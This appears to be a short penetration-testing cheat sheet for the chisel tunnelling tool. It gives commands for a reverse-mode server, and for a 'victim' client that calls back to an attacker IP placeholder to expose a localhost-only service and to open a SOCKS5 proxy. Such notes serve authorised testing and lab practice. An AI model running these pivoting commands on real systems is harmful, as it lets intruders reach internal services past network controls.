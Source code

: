 # format remote string

```
<local-port> :<remote-host> :<remote-port>   #local-port = port from client
```

Listen on local port and forward it to remote host to remote port

```
R:<local-port> :<remote-host> :<remote-port>   #local-port = listen on local-port on server
```

Listen on local port on server and forward it to remote host on remote port

# listen on server port 135 and forward packets to client on port 9999

```
chisel.exe client so.me.i.p:1337 R:135:localhost:9999
```

# start server

```
chisel server -p 8888 --reverse --host 0.0.0.0
```

# examples 

## service running on victim but only listen on 127.0.0.1:1337

The following example forwards the service running on 127.0.0.1:1337 to the attacker on port 8080.

### attacker 

```bash
chisel server -p 9999 --host 0.0.0.0 --reverse
```

### victim

Move chisel binary to victim.

```bash
./chisel client <attack_ip>:9999 R:8080:127.0.0.1:1337
```

# socks5 proxy

setup foxyproxy socks5 on localhost 1080

```bash
./chisel client server:9999 R:socks
```

socks5 proxy at attacker on port 1234

```bash
./chisel client server:9999 R:1234:socks
```

